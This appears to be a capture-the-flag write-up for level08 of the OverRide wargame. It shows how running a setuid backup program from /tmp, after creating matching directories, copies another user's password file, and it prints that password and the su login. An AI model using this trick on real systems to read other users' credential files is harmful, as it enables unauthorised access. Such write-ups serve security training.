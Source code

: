 Here, we have a program that reads a given file and creates a backup into the `backups` folder.
So the first thing we try :

```bash
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass

```

Maybe we can try to create the given directories ? 

```
level08@OverRide:~$ mkdir -p backups/home/users/level09
mkdir: cannot create directory `backups/home': Permission denied
```

No luck here.
So let's try to do the same thing but inside a directory where we have more rights:

```bash
level08@OverRide:/tmp$ cd /tmp
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

hmmm forgot something...

```bash
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

```bash
su level09
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

